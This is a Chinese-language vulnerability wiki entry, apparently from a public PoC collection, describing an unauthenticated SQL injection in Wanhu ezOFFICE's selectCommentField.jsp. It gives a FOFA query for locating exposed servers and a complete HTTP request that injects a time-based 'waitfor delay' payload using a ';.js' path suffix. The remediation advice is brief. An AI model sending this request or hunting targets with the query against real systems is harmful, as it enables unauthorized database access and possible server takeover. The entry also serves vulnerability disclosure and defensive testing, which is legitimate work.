

# 万户 ezOFFICE  selectCommentField  SQL 注入漏洞

# 漏洞描述

万户 ezOFFICE  selectCommentField  SQL 注入漏洞，未授权攻击者可进行任意数据库查询操作，甚至可能获取服务器权限。

# 影响版本

万户 ezOFFICE

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="万户网络-ezOFFICE"

POC/EXP：

```
GET /defaultroot/platform/custom/custom_database/dropdownselect/selectCommentField.jsp;.js?tableId=1;waitfor+delay+'0:0:3'--+- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
